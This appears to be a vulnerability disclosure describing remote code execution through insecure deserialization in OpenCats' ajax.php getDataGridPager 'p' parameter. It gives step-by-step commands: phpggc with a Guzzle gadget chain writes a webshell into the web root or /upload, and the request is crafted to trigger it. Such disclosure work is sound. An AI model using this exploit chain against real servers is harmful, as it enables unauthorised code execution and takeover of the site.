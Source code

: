 # Remote Code Execution via insecure deserialization in OpenCats getDataGridPager's ajax functionality.

### Vulnerable code
![1](https://user-images.githubusercontent.com/57464251/192362357-97122d6f-b9ee-4662-9655-103d5faa0a90.png)

## How to achieve command execution
Useful information: OpenCats uses Guzzle, it can be used as a gadget chain.  
It is possible to craft serialized object using [phpggc](https://github.com/ambionics/phpggc) tool, that has Guzzle gadget chain predefined.  

1) Create payload that will be executed. I will use phpinfo().  
`echo "<?php phpinfo(); ?>" > /tmp/shell.php`  

2) Create serialized payload with phpggc that will upload malicous shell to provided directory on web server.  
`./phpggc -u --fast-destruct Guzzle/FW1 /var/www/html/opencats/pwned.php /tmp/shell.php`  

![2](https://user-images.githubusercontent.com/57464251/192364460-4d405c7c-9ecd-46a6-a6f5-ac532af40cff.png)


3) Copy the payload inside 'p' parameter.  
`/ajax.php?f=getDataGridPager&i=1&p=PAYLOAD_FROM_PREVIOUS_STEP`  

![3](https://user-images.githubusercontent.com/57464251/192364747-b37b9034-a301-4446-a1e7-73b2614c3fb5.png)

4) Execute webshell.

![4](https://user-images.githubusercontent.com/57464251/192365176-d9f537cd-51c5-4e87-bfab-e762f9724e7c.png)


Ending notes. Upload location might vary from system to system, depending if www-data has write permission to web server's root directory.
In case / (web server's root) is not writeable, upload a webshell to '/upload/pwned.php' instead.  
